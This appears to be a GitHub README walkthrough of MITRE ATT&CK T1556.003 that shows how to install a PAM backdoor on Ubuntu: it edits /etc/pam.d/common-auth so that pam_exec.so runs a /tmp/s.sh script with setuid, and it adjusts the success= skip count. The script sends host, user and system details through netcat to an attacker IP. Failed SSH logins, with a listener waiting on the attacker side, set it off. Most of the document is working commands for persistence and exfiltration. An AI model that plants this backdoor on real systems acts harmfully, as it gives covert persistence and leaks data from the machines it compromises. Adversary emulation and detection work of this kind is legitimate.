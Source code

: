 ## [T1556.003-Modify Authentication Process: Pluggable Authentication Modules](https://attack.mitre.org/techniques/T1556/003/)  

### Background  
The pam_exec.so module in Linux Pluggable Authentication Modules (PAM) provides a flexible mechanism to execute custom scripts during various authentication stages. While commonly used for legitimate logging and running scripts for automation, this feature can be maliciously abused to trigger backdoor scripts in response to specific authentication events. In this scenario lets see how to trigger backdoor for SSH failure logins on Ubuntu 22.04 and maintain persistence. This technique can work in all other ubuntu environments as well. While Group-IB showcased this [technique](https://www.group-ib.com/blog/pluggable-authentication-module/) on Red Hat-based systems like Fedora and CentOS, they didn’t cover Debian-based environments. Here, I demonstrate how the same method works on Ubuntu or Debian-Based Systems. Unlike RPM-based systems where the /etc/pam.d/sshd file handles SSH authentication directly, Debian-based systems separate the authentication logic into the /etc/pam.d/common-auth file, which is included by the sshd PAM configuration.
### Test Environment: 
**Victim:** Ubuntu 22.04    
**Attacker:** Ubuntu 24.04 (You can choose any OS vendor for this)  
Install netcat on Attacker system.  
**Note:** This technique works on all debian systems.
### Implementation:  

#### Step1: Change the PAM config
At victim side, for getting persistence edit the file /etc/pam.d/common-auth file and add the following line below pam_unix.so line.  
``vim /etc/pam.d/common-auth``   
``auth optional pam_exec.so quiet setuid /tmp/s.sh``  
**Note1:** /tmp/s.sh file a backdoor script in this scenario.   
**Note2:** In PAM configuration, the **success=N** directive means: If the current module succeeds, skip the next N lines. So if the ssh authentication is successful the module has to skip the next  3 followed lines. Since the SSH authentication module currently uses success=2, and we are adding an additional line below it, we need to update this value to success=3 to ensure the correct number of lines are skipped on successful authentication.    
**Before:**   

![image](https://github.com/user-attachments/assets/da285bd7-1df4-40e2-9352-1e243c80b773)    

**After:**   

You can observe the modified success value to 3 in pam_unix.so line as shown.  

![PAM-Exec-SSHFailure](https://github.com/user-attachments/assets/d3cf8ab4-b491-46fc-a378-865b55e71808)  
Once you make any changes to PAM configuration you have to restart  
sudo systemctl restart ssh  


#### Step2: Drop Backdoor script 
At victim side.   
**Backdoor script:** 
```
#!/bin/bash 

REMOTE_IP="<attackerIP>" 
REMOTE_PORT="4444" 
echo -e "Hostname: $(hostname)\nUser: $(whoami)\nUptime: $(uptime)\nOSDetails:$(uname -a)" | nc $REMOTE_IP $REMOTE_PORT
```  
``chmod 770 /tmp/s.sh``  
``chmod +x /tmp/s.sh``  

#### Step3: Listen for incoming connections and try ssh auth failures - Attacker Side:  
listen for incoming connections.  
```nc -lvp 4444```  
Try repeatedly logging into the victim machine’s SSH with invalid credentials to generate authentication failures that will trigger the backdoor as shown below screenshot.  
```ssh user@<victimIp>```    
The ssh failures trigger the backdoor script /tmp/s.sh and sends the information back to attacker as shown below. Finally the output looks like below from attacker machine.  

![450890823-89aadc9b-46ca-4925-8996-c6305434d260](https://github.com/user-attachments/assets/4a75f2ed-9450-4e07-87aa-d0ecb26511f4)  
